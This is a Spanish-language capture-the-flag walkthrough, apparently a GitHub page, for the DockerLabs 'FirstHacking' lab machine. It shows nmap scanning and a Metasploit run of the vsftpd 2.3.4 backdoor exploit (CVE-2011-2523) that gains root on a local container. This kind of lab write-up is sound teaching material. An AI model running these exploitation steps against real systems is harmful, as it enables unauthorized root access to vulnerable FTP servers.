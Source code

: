 Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Despliegue.png) <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>
![Ping](./Images/Dockerlabs - FirstHacking - Ping para ver conectividad.png)
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Ping%20para%20ver%20conectividad.png?raw=true)<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmpa%20reconocimiento.png?raw=true) <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png?raw=true) <br>

tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
![image](/Images/Dockerlabs - FirstHacking - Metasploit encontrando el sploit.png) <br>


metaesploit configuramos el IP destino:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metaesploit%20configuracion%20de%20la%20IP%20del%20host.png)


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Correr%20metaesploit.png)<br>
conseguimos acceso con el usuario root:<br>

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Usuario%20Root.png)
